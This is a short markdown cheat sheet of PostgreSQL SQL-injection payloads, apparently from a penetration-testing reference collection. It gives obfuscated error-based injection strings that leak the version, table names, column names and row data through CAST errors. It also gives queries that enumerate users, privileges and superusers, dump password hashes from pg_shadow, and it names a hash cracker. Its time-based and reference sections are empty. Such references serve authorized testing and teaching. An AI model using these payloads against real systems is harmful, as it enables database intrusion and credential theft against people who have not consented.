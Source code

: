 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# ----------------------------------------------------------

Version	
``` 
SELECT version()
```
Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
List Users	
```
SELECT usename FROM pg_user
```
List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```
Password Cracker	
```
MDCrack can crack PostgreSQL’s MD5-based passwords.
```
List Privileges	
```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```
List DBA Accounts
```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```


## References:
